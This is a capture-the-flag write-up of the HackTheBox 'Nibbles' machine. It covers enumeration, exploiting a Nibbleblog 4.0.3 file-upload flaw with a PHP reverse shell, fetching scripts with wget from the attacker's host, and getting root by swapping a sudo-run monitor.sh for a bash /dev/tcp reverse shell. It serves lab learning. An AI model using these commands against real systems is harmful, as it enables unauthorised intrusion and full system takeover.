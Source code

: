 # HackTheBox Nibbles

[Sources](https://github.com/BurntxNoodle/RedTeam/edit/master/HackTheBox%20Writeups/HTB%20-%20Nibbles/Readme.md#Sources)

### Enumeration

Starting off with a basic enumeration scan: ```nmap -sC -sV -oA nibbles 10.10.10.75```

Here's what it outputs:

![image](https://user-images.githubusercontent.com/41026969/73245301-ecec9f80-4179-11ea-96ec-ea6e22e3fd65.png)

So we see there's a ssh server and a web server being hosted on this machine. Since we don't have any creds for ssh yet, I first check out the webpage:

![image](https://user-images.githubusercontent.com/41026969/73312921-db49dd00-41f7-11ea-8c99-d5d43e258f78.png)

Checking the source (on FireFox ESR, ```CTRL``` + ```u```) we see there's a hidden directory:

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Going to ```http://10.10.10.75/nibbleblog/``` to check it out shows some kind of portal:

![image](https://user-images.githubusercontent.com/41026969/73313001-13e9b680-41f8-11ea-81c8-f1be6adba61c.png)

I initially did a gobuster scan on the main homepage ```http://10.10.10.75``` and it didn't find anything. Though trying a gobuster scan on ```http://10.10.10.75/nibbleblog/``` (using the ```directory-list-2.3-medium```) outputs:

![image](https://user-images.githubusercontent.com/41026969/73313521-7c856300-41f9-11ea-89db-e960aef7edfc.png)

Looking at the ```README``` directory:

![image](https://user-images.githubusercontent.com/41026969/73313695-e7cf3500-41f9-11ea-86f7-9aa5ec46ecce.png)

We see that the web server has ```Nibbleblog version 4.0.3 codename Coffee``` installed.

##### Finding an exploit for later use

Looking up vulnerabilities for this version of Nibbleblog, there are multiple articles about file uploading:

![image](https://user-images.githubusercontent.com/41026969/73314010-b99e2500-41fa-11ea-87f6-7ff607809d93.png)

We see there's a [Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload) page about it. In this article, it describes the vulnerability. ```Nibbleblog contains a flaw that allows an authenticated remote attacker to execute arbitrary PHP code. This module was tested on version 4.0.3.``` Though a thing to note about this is that we need to be on an authenticated account. So we need to keep enumerating those web directories for some credentials...

Reading more into the vulnerability, a list of steps can be found on [this webpage](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html). Where we basically have to upload an image containing php code and running it by visiting a specific location/URL which will then execute the code. 

Looking around I eventually end up in the ```/content/private/users.xml``` page. Checking out the page shows there's a single user ```admin```. It is also worth noting that there seems to be a firewall/blacklist system in place to guard against bruteforcers. Here's a screenshot of it below:

![image](https://user-images.githubusercontent.com/41026969/73314486-020a1280-41fc-11ea-871e-3e6c62829e81.png)

Doing further enumeration checks by this time adding ```php``` to list of file extensions to find any extra webpages/files:

```
noodle@kali:~/Desktop/Hacky Sack/htb-nibbles$ gobuster dir -u 10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 200 -o gobuster_results.txt
```

Outputs the following:

![image](https://user-images.githubusercontent.com/41026969/74098356-3b3c5f80-4ae5-11ea-85ae-68c200a0e0c8.png)

Visiting each of the pages, eventually coming across ```/admin.php``` we see there's an admin login page that was previously not seen:

![image](https://user-images.githubusercontent.com/41026969/74098395-b6057a80-4ae5-11ea-81b3-4772b7a604e7.png)

Knowing before, we know of at least one user: ```admin```. Doing some careful guess and checking I eventually try ```nibbles``` as the password at it worked, revealing this home screen:

![image](https://user-images.githubusercontent.com/41026969/74098423-011f8d80-4ae6-11ea-942f-610601078c52.png)

### Exploitation

Going back to [this source](page explaining the image upload vulnerability from cve details webpage (above)](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) that lists steps on executing the exploit shows we need to upload some php code. Below are the steps listed on the website above:

![image](https://user-images.githubusercontent.com/41026969/74098470-77bc8b00-4ae6-11ea-91f5-aabd267d6885.png)

The first step is done, we have gained admin credentials into the portal. The second step is activating the my image plugin. From the main site, going to ```Plugins``` shows that ```My image``` is already installed. Clicking the "Configure" button under it brings up a menu we can upload a picture to. The third step is uploading a PHP shell...

I use one of the default kali PHP webshells ([read more on kali webshells here](https://tools.kali.org/maintaining-access/webshells)): 

```
noodle@kali:~/Desktop/Hacky Sack/htb-nibbles$ cp /usr/share/webshells/php/php-reverse-shell.php .
```

##### Explanation of above: ```cp``` is copy, ```/usr/share...``` is the file I'll be copying, and ```.``` is the place I'll be copying to, in Linux, ```.``` represents the current directory. 

Before I upload the file, I need to configure it by putting my IP and port number that I'll be listening to:

![image](https://user-images.githubusercontent.com/41026969/74098604-33ca8580-4ae8-11ea-9775-e7316edf4d33.png)

Now to upload this php file, I go back to the website and in the configure screen of the "My image" plugin; there's a ```Browse``` button to upload a file which I upload the php file to.

The next step according to the website is to go to ```http://localhost/nibbleblog/content/private/plugins/my_image/image.php``` page (changing the localhost address to the IP address). But before I navigate to that directory, I must first set up a netcat listener by doing ```noodle@kali:~/Desktop/Hacky Sack/htb-nibbles$ nc -nvlp 4444```.

Now visiting the address ```10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php```:

![image](https://user-images.githubusercontent.com/41026969/74098639-8310b600-4ae8-11ea-8154-a7b92ad6824f.png)

We get a shell!

### Post Exploitation - More Enumeration & Privesc

Looking aroud the machine, the user flag is found at ```/home/nibbler/user.txt```.

To do further enumeration, I use [LinEnum](https://github.com/rebootuser/LinEnum) which will gather a bunch of information about the box. To get it on the remote box, I first copy ```LinEnum.sh``` into my current working directory, then I do ```python -m SimpleHTTPServer```. Then on the remote box, I do ```wget 10.10.14.3:8000/LinEnum.sh``` to download the file. Then to run it first give it permissions ```chmod +x LinEnum.sh``` then ```./LinEnum.sh```.

Running it we see something interesting:

![image](https://user-images.githubusercontent.com/41026969/74098786-02eb5000-4aea-11ea-9dda-63df48328428.png)

We can use the sudo command to run a ```monitor.sh``` file inside the directory ```/home/nibbler/personal/stuff``` meaning we have to do ```unzip personal.zip``` to unzip the file. Going inside the personal directory there is a ```stuff``` directory and going inside that directory there is the ```monitor.sh``` file. 

To edit the file (or to change it altogether) on the target box, I did ```rm monitor.sh``` to remove the original file as we'll be uploading our own sh file. Then on the host machine, I create an sh file (also named ```monitor.sh```) that will contain a bash command to get a reverse shell. I get a bash one-liner command from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and on the top of the file I put ```#!/bin/bash``` to show we're executing bash commands. So this is how the file looks like:

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.3/4445 0>&1
```

##### Note: I changed the IP/Port address to my own IP and I'll be listening on port 4445

To get it on the target host, I do the same thing from earlier: on my host machine I use ```python -m SimpleHTTPServer``` to make the files available and then on the target host machine I use ```wget 10.10.14.3:8000/monitor.sh``` to get the new ```monitor.sh``` file I created. Note for this machine you need to download the ```monitor.sh``` file inside the correct directories. Then I give it permission to execute: ```chmod +x monitor.sh```

Creating a listener on port 4445 by doing ```ncat -nvlp 4445``` and then running the new ```monitor.sh``` file by doing ```./monitor.sh```... I get a new shell!

![image](https://user-images.githubusercontent.com/41026969/74099001-a76e9180-4aec-11ea-9115-98a4f838a4e7.png)

Doing an ```id``` check shows we have uid/gid of 0 which means we are root.

Looking around, the root flag is found in ```/root/root.txt```. 

### Flag Locations
user: ```/home/nibbler/user.txt```

root: ```/root/root.txt```

### Sources
- [cve details webpage on nibbleblog vulnerability](https://www.cvedetails.com/cve/CVE-2015-6967/)
- [page explaining the image upload vulnerability from cve details webpage (above)](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)
- [Kali web shells](https://tools.kali.org/maintaining-access/webshells)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [PentestMonkey reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [IppSec video writeup](https://www.youtube.com/watch?v=s_0GcRGv6Ds)

### Post-Machine Analysis/Reflection
- Learned that when using gobuster, add in the php extension to find additional webpages. On dirbuster, php is already the default file extension.
- Credentials aren't always stored in plaintext somewhere on a server, some guess/check might be needed.
- Learned that there's a difference between bash and sh [from reading this page](https://askubuntu.com/questions/141928/what-is-the-difference-between-bin-sh-and-bin-bash). There's also difference between ```#!/bin/bash``` and ```#!/bin/sh``` because initially running the command without the ```#!/bin/bash``` at the top did not work (but afterwards, adding it solved the issue).
- Sometimes, we have to make sure ```.sh``` files are executable (```chmod +x file_name.sh```).
- this python one liner can make a reverse shell look better: ```python -c 'import pty; pty.spawn("/bin/bash")'```.
